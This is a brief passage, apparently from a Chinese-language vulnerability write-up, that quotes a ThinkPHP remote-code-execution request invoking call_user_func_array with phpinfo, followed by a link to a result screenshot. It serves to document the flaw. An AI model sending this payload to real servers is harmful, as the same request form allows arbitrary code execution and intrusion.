   >index?s=index/\think\container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
  >```
  >
  >结果
  >
  >![ ](https://images.seebug.org/content/images/2018/12/ef23de24-b767-42b5-8248-c661f902a4b2.png-w331s)
  

